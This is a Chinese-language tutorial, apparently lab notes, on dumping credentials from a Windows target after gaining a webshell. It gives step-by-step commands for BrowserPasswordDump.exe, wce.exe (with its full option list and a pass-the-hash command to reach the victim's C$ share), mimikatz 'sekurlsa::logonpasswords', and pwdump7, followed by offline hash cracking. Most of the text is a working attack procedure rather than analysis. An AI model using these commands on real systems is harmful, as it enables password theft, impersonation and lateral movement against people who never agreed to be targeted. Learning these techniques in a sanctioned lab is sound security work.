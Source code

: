 # BrowserPasswordDump.exe的使用

1. 在获取到webshell的前提下，将BrowserPasswordDump.exe上传到目标靶机中

   ![image-20210625224617388](第三方软件提权.assets/image-20210625224617388.png)

2. 上传成功后执行BrowserPasswordDump.exe

   ![image-20210625224714022](第三方软件提权.assets/image-20210625224714022.png)

3. 以上便成功获取了通过浏览器记住的密码，再通过命令获取服务器的用户名，然后根据此可以猜测服务器的某些用户的密码为ndsec123，从而减少被发现的几率

   ![image-20210625224912919](第三方软件提权.assets/image-20210625224912919.png)

# Wce.exe的使用

1. 同样在已经获取到shell的情况下，上传wce.exe程序

   ![image-20210626000435411](第三方软件提权.assets/image-20210626000435411.png)

2. 执行语句：wce.exe -l

   ![image-20210626000711135](第三方软件提权.assets/image-20210626000711135.png)

   -l               列出登录的会话和NTLM凭据（默认值）
   -s               修改当前登录会话的NTLM凭据 参数：<用户名>:<域名>:<LM哈希>:<NT哈希>
   -r               不定期的列出登录的会话和NTLM凭据，如果找到新的会话，那么每5秒重新列出一次
   -c               用一个特殊的NTML凭据运行一个新的会话 参数：<cmd>
   -e               不定期的列出登录的会话和NTLM凭据，当产生一个登录事件的时候重新列出一次
   -o               保存所有的输出到一个文件 参数:<文件名>
   -i                指定一个LUID代替使用当前登录会话 参数:<luid>
   -d               从登录会话中删除NTLM凭据 参数:<luid>
   -a               使用地址 参数: <地址>
   -f                强制使用安全模式
   -g               生成LM和NT的哈希 参数<密码>
   -K               缓存kerberos票据到一个文件（unix和windows wce格式）
   -k               从一个文件中读取kerberos票据并插入到windows缓存中
   -w              通过摘要式认证缓存一个明文的密码
   -v               详细输出

3. 然后在攻击主机执行语句{wce.exe -s 对方hash值}，将对方的hash值注入到攻击机本地

   > wce.exe -s 用户名:对方机器名或者ip:LM-HASH:NT-HASH

   ![image-20210626003924364](第三方软件提权.assets/image-20210626003924364.png)

4. 通过对方的hash值可以访问对方文件

   >dir \\NDSEC-D362CF050\c$

   ![image-20210626004616672](第三方软件提权.assets/image-20210626004616672.png)

# Mimikatz的使用

1. 在拿到shell的情况下上传Minikatz.exe

   ![image-20210626220044415](第三方软件提权.assets/image-20210626220044415.png)

2. 执行语句

   > `mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords"" exit >>1.txt`
   >
   > privilege::debug	提升权限
   >
   > sekurlsa::logonpasswords	抓取密码

   ![image-20210626220835292](第三方软件提权.assets/image-20210626220835292.png)

3. 然后将获取到的hash值和明文密码文件1.txt下载至本地即可查看

   ![image-20210627215847842](第三方软件提权.assets/image-20210627215847842.png)

# pwdump7.exe的使用

1. 在获取到webshell的情况下将pwdump7.exe相关组件上传到靶机

   ![image-20210626231309435](第三方软件提权.assets/image-20210626231309435.png)

2. 上传成功后编写批处理文件，执行后即可产生密码文件

   > Pwdump7.exe >pass.txt
   
   ![image-20210627220948615](第三方软件提权.assets/image-20210627220948615.png)

3. 然后去https://www.objectif-securite.ch/ophcrack破解即可

   

